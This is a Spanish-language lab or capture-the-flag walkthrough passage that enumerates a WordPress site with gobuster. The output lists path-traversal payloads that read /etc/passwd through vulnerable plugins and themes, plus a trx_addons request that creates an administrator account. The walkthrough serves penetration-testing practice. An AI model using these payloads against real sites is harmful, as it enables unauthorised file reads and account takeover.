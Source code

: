 Sobre todo donde pone `wp-submit` podemos ver que esta utilizando `wp` por lo que podemos deducir que tiene un `wordpress` instalado, vamos a probar metiendo lo siguiente:

```
URL = http://norc.labs/wp-admin
```

Y vemos que efectivamente nos lleva al panel de `wordpress` de login, probaremos con las credenciales por defecto.

Pero veremos que no funcionan, tambien veremos que tenemos solamente 3 intentos, por lo que no podremos realizar fuerza bruta, vamos a identificar si hubiera algun `plugin` en el `wordpress`, que pueda ser vulnerable.

Vamos a realizar un poco de `fuzzing` ya que no podremos utilizar la herramienta `wpscan`.

## Gobuster

```shell
gobuster dir -u http://norc.labs/ -w <WORDLIST> -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://norc.labs/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                ../../Downloads/wp-fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.........................................................................
/wp-content/plugins/ungallery/source_vuln.php?pic=/../../../../../../../../../../../../../../../../etc/passwd (Status: 403) [Size: 199]
/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd (Status: 403) [Size: 199]
/wp-content/plugins/wp-fastest-cache/readme.txt (Status: 200) [Size: 16210]
/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../../../../../../etc/passwd (Status: 403) [Size: 199]
/wp-content/plugins/wp-miniaudioplayer/map_download.php?fileurl=/etc/passwd (Status: 403) [Size: 199]
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd (Status: 403) [Size: 199]
/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=/etc/passwd (Status: 403) [Size: 199]
/wp-content/plugins/xcloner-backup-and-restore/cloner.cron.php?config=/../../../../../../../../../../../../../../../../etc/passwd (Status: 403) [Size: 199]
/wp-content/themes/nestle-action-stations/functions/site/force-download.php?file=../../../../../../../../../../../../../../../../etc/passwd (Status: 403) [Size: 199]
/wp-content/themes/sgfc2017/functions/site/force-download.php?file=../../../../../../../../../../../../../../../../etc/passwd (Status: 403) [Size: 199]
/wp-json/trx_addons/V2/get/sc_layout?sc=wp_insert_user&role=administrator&user_login=admin&user_pass=admin (Status: 401) [Size: 113]
/wp-content/upgrade/upgrade.php (Status: 200) [Size: 2568]
Progress: 6571 / 6571 (100.00%)
```
